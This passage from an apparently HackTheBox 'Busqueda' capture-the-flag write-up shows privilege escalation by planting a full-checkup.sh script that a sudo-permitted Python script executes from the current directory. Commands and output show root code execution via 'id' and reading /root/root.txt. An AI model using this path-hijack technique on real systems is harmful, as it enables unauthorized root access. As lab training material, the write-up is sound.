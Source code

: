 ```python
        except:
            print('Something went wrong')
            exit(1)
            
```

When we call the `full-checkup` action it tries to run a script called ./full-checkup.sh in our current working directory. If we just create a script and name it `full-checkup.sh` and run our command from that directory it should pull. Let's test that.

#### Full-checkup.sh

```bash
#!/bin/bash
id
```

#### Executing

```console
svc@busqueda:/tmp/tmp.t$ vi full-checkup.sh 
svc@busqueda:/tmp/tmp.t$ chmod +x full-checkup.sh 
svc@busqueda:/tmp/tmp.t$ sudo python3 /opt/scripts/system-checkup.py full-checkup
uid=0(root) gid=0(root) groups=0(root)

[+] Done!
```

### Root.txt

We can now set up a reverse shell using the `full-checkup.sh` script, but if we just want the flag we know it is generally at `/root/root.txt` so let's just grab that.

#### Full-checkup.sh

```bash
#!/bin/bash
cat /root/root.txt
```

#### Flag

```console
svc@busqueda:/tmp/tmp.t$ sudo python3 /opt/scripts/system-checkup.py full-checkup
f12a3***************************

[+] Done!

```
